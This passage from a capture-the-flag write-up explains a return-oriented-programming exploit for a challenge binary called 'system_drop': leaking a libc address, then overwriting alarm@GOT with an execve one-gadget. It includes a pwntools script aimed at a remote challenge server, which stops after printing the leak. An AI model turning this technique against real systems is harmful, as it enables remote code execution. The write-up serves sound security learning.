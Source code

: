 We already have a list of `execve()` offsets from the Controller challenge when we ran `one_gadget`. In order to execute it, we need to overwrite a function pointer in the GOT with the address of the `execve()` gadget. We can overwrite the address of `alarm()` at the GOT, and then call `alarm()` at PLT to call the `execve()` gadget. To do that, we need to call `read()` at PLT with the RDI register set to 0 (stdout), and RSI set to the address of `alarm()` at the GOT:

```
# Stage 2 : We have libc and calculated the address of a one-gadget-rce at this point
# Call read() again to overwrite alarm@got with one-gadget-rce
buf += p64(pop_rdi)
buf += p64(0x0)                 # stdout
buf += p64(pop_rsi_chain)       # pop rsi; pop r15; ret
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)                 # junk for r15
buf += p64(read_plt)            # read() in our one-gadget-rce into alamr@got
```

When this chain executes, the binary will wait for input. At this point we can send the address of the `execve()` gadget to overwrite `alarm()` at the GOT, and then return to `alarm()` at the PLT. 

Here's the final exploit: 

```
#!/usr/bin/env python3
from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("system_drop")

libc = ELF("libc.so.6")

read_plt = elf.plt.read

pop_rdi = 0x4005d3               # pop rdi
pop_rsi_chain = 0x4005d1         # pop rsi; pop r15; ret
syscall = 0x40053b               # syscall; ret

r = remote("139.59.185.150",30477)

# Stage 1 : Leak a libc address
# After the binary calls read(), it sets eax=1 which we can use for a write() syscall to leak
# alarm()'s libc address
buf = b"A"*40
buf += p64(pop_rdi)
buf += p64(0x1)                 # stdout
buf += p64(pop_rsi_chain)
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)
buf += p64(syscall)             # write() syscall which should give us the libc address we need

# Stage 2 : We have libc and calculated the address of a one-gadget-rce at this point
# Call read() again to overwrite alarm@got with one-gadget-rce
buf += p64(pop_rdi)
buf += p64(0x0)                 # stdout
buf += p64(pop_rsi_chain)
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)
buf += p64(read_plt)            # read() in our one-gadget-rce into alamr@got

# Stage 3 : Call alarm() to trigger call to do_system()
buf += p64(elf.plt.alarm)

r.sendline(buf)

alarm_libc_leak = int.from_bytes(r.recv()[:6], "little")
print(f"alarm@libc: 0x{alarm_libc_leak:2x}")
```